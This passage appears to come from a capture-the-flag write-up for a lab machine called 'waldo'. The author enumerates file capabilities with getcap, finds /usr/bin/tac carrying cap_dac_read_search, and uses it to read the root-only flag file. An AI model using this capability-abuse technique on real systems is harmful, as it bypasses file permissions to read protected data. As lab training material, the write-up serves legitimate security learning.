 ```
monitor@waldo:~/app-dev$ ./logMonitor -a
Cannot open file

monitor@waldo:~/app-dev/v0.1$ ./logMonitor-0.1 -a
Aug  4 21:17:01 waldo CRON[938]: pam_unix(cron:session): session opened for user root by (uid=0)
Aug  4 21:17:01 waldo CRON[938]: pam_unix(cron:session): session closed for user root
Aug  4 22:00:37 waldo sshd[980]: Accepted publickey for monitor from 127.0.0.1 port 57202 ssh2: RSA SHA256:Kl+zDjbDx4fQ7xVvGg6V3RhjezqB1gfe2kWqm1AMD0c
[...]

monitor@waldo:~/app-dev$ ls -l logMonitor
-rwxrwx--- 1 app-dev monitor 13704 Jul 24 08:10 logMonitor
monitor@waldo:~/app-dev$ ls -l v0.1/logMonitor-0.1 
-r-xr-x--- 1 app-dev monitor 13706 May  3 16:50 v0.1/logMonitor-0.1
```

So, both files are owned by the same user and do not have the SUID bit set... Why is the v0.1 file able to read log files then?

Let's look at file capabilities:

```
monitor@waldo:~$ getcap -r *
app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

The `cap_dac_read_search` capability is used to `Bypass file read permission checks and directory read and execute permission checks`. So basically, if a file has this permission it can read anything.

We can't use this file to read anything other than log files but maybe there are other similar files on the host:

```
monitor@waldo:~$ getcap -r /* 2>/dev/null
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
/usr/bin/tac = cap_dac_read_search+ei
```

What is this `tac` binary?

```
monitor@waldo:~$ /usr/bin/tac --help
Usage: /usr/bin/tac [OPTION]... [FILE]...
Write each FILE to standard output, last line first.
```

Ok, we can use this to read files, let's grab root.txt and finish this box:

```
monitor@waldo:~$ tac /root/root.txt
8fb67c<redacted>
```                                                                   
